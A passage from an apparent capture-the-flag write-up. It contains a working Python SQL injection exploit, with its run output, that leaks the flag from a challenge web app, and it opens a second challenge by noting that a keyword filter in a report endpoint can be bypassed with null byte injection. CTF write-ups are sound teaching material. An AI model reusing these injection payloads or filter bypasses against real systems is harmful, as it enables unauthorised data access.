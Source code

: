 ```python
import requests
import uuid
import re

url = "http://1.230.253.91:1000"
username = uuid.uuid4()

print("[+] Exploit")
print(f"[+] Username  : {username}")
sess = requests.Session()
# Login/Register
account = {"username":username, "password":"pocas"}
res = sess.post(url + '/login', data=account)

# Leak the flag
poc = {"title":"?", "content":",(select flag from flag),?)--"}
res = sess.post(url + '/new', data=poc)

# Parse the flag path
flag_path = re.search('\/view\/[0-9a-z]*', sess.get(url).text).group()
print(f"[+] Flag Path : {flag_path}")

# Read the flag
flag = re.search('hsctf\{[0-9a-z]*\}', sess.get(url + flag_path).text).group()
print(f"[+] Real FLAG : {flag}")
```
Finally I wrote the exploit code as above

```sh
 ⚡ root@pocas  ~  python3 poc.py
[+] Exploit
[+] Username  : 116588a5-5cb1-46e8-917e-5f7ea12408bf
[+] Flag Path : /view/7fc3144da56dd8c9dbdfded1b3f35c44
[+] Real FLAG : hsctf{038d083216a920c589917b898ff41fd9611956b711035b30766ffaf2ae7f75f2}
 ⚡ root@pocas  ~ 
```


```
FLAG : hsctf{038d083216a920c589917b898ff41fd9611956b711035b30766ffaf2ae7f75f2}
```

---
## (Web) Cyber Headchef [390 pts]

The Cyber Headchef challenge is Cyberchef's v2 and this is a 0-Day Challenge. (This is an unintended solution)

```javascript
app.post('/report', (req, res) => {
  const url = req.body.url;

  if (!checkUrl(url)) {
    res.redirect('/?message=invalid argument');
  } else if (unescape(url).indexOf('chart') !== -1) {
    res.redirect('/?message=sorry, headchef doesn\'t like chart!');
  } else if (!checkRateLimit(req.ip)) {
    res.redirect(`/?message=rate limited`);
  } else {
    visitUrl(url)
      .then(() => res.redirect('/?message=reported'));
  }
});
```
This is filtering the characters called chart among the function names used in the 1-Day exploit.  But this can be bypassed using null byte injection